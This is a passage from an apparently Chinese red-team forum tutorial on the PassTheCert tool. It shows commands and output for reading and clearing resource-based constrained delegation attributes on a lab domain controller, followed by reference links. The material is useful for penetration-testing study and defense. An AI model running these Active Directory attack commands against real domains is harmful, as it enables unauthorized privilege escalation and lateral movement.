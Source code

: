 ```php

### 读取RBCD属性 | read_rbcd
该参数将会读取目标服务器的RBCD属性，并且将其中的SID值转换为sAMaccountnames
```shell
python3 passthecert.py -action read_rbcd -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -delegate-from NoPKI02$ -delegate-to DC01$

[*]     NoPKI02$     (S-1-5-21-3309395417-4108617856-2168433834-3605)
```

![x1NUnP.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-41d20d1f91798fc3fdda95a6a56ca7b1a92895d8.png)

### 清除RBCD属性 | remove\_rbcd

```shell
python3 passthecert.py -action remove_rbcd -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -delegate-from NoPKI02$ -delegate-to DC01$

[*] Accounts allowed to act on behalf of other identity:
[*]     NoPKI02$     (S-1-5-21-3309395417-4108617856-2168433834-3605)
[*] Delegation rights modified successfully!
```

![x1NDhQ.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-8f272da70f03db413ad8d99ec1c0f60b56bf31f0.png)

0x05 参考
=======

[Authenticating with certificates when PKINIT is not supported - Almond Offensive Security Blog](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

[红队域渗透权限维持技术：Shadow Credentials (butian.net)](https://forum.butian.net/share/1607)

[内网安全-域横向PTH&amp;PTK&amp;PTT哈希票据传递](https://www.cnblogs.com/bonelee/p/15916764.html#:~:text=PTT%20%EF%BC%88pass%20the%20ticket%EF%BC%89%20%E5%88%A9%E7%94%A8%E7%9A%84%E7%A5%A8%E6%8D%AE%E5%87%AD%E8%AF%81TGT%E8%BF%9B%E8%A1%8C%E7%9A%84%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%3D%3D%E3%80%8B%E7%B1%BB%E4%BC%BCcookie%20PTK%20%EF%BC%88pass,the%20key%EF%BC%89%20%E5%88%A9%E7%94%A8%E7%9A%84ekeys%20aes256%E8%BF%9B%E8%A1%8C%E7%9A%84%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%20PTH%E5%9C%A8%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E4%B8%AD%E6%98%AF%E4%B8%80%E7%A7%8D%E5%BE%88%E7%BB%8F%E5%85%B8%E7%9A%84%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F%EF%BC%8C%E5%8E%9F%E7%90%86%E5%B0%B1%E6%98%AF%20%E6%94%BB%E5%87%BB%E8%80%85%E5%8F%AF%E4%BB%A5%E7%9B%B4%E6%8E%A5%E9%80%9A%E8%BF%87LM%20Hash%E5%92%8CNTLM%20Hash%E8%BF%9C%E7%A8%8B%E8%AE%BF%E9%97%AE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%80%85%E6%9C%8D%E5%8A%A1%EF%BC%8C%E8%80%8C%E4%B8%8D%E6%8F%90%E4%BE%9B%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E3%80%82)

[AlmondOffSec/PassTheCert: Proof-of-Concept tool to authenticate to an LDAP/S server with a certificate through Schannel (github.com)](https://github.com/AlmondOffSec/PassTheCert)

[Pass the Certificate - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate)